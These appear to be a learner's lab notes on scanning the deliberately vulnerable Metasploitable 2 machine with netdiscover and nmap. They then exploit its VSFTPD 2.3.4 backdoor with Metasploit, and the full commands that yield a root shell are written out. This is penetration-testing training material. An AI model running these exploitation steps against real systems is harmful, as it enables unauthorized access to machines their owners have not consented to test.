 ## Scanning Metasploit
- netdiscover
- nmap



##### We're going to be running scans to hack metasploitable 2

We're also going to be using the red hat field manual. 

n84398
equals.mc2



https://hackerone.com/bug-bounty-programs  
https://www.bugcrowd.com/bug-bounty-list/  

  
Red-Team-Field-Manual/dp/1075091837/ref=sr_1_1?crid=3LZOESTKAIS7M&dib=eyJ2IjoiMSJ9.xLp65lZ5xizvH1JTcYGjdy_S9K2di8WrQO913DXs2SiBZ95T-mZ_oWPvFvIKjakM7ugRbUNEF0Dp7J76dY8NScsdLMa0ZbbbEMHP3fq87vMLQZ_-NwA4-0tLuwVC8WmR-BBuxHdXZ9E0NFLulUVd_cqQlNblONJxiwIsY9e77ympgmjNSzgaQiEQ83nWk2scwl_unpaV55x0jJo47FYjQjiZHIe18lwycHkiRRUQXnQ.3k2HQDjo7SW1kCFRHolMc74IciP0FpbXMPRVLdsyJLo&dib_tag=se&keywords=rtfm&qid=1729023794&sprefix=rtfm%2Caps%2C716&sr=8-1

## To find nodes on the network

~# netdiscover

(pretend we find 10.0.2.4)

~# ping 10.0.2.4

(Verify it's there, get more info)

## To perform scan

nmap -sV 10.0.2.4

- We'll find open ports and services
- We decided to attack VSFTPD 2.3.4
- We learned it's a Linux machine

## To see which vulnerabilities we can exploit

msfconsoleuse~# searchsploit vsftpd 2.3.4

(We should get two options, one of them being metasploit)

## Load Metasploit

~# msfconsole

## Search vulnerability

msf6 > search vsftpd 2.3.4

- We'll see 1 result with an ID of 0

## Loads exploit

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

- The path for this exploit is found in the search command

msf6 > show options

- This shows what we need to input before the command can work
- It asks to set RHOSTS

msf6> set RHOSTS 10.0.2.4

## Runs exploit

msf6 > run

- We should then be able to connect
- No prompt?

## Commands to run once inside

whoami

- root
- pwd
- /


This is not a reverse shell because there's no listener. This is a backdoor

https://github.com/rapid7/metasploitable3  
https://nvd.nist.gov/vuln/detail/CVE-2011-2523

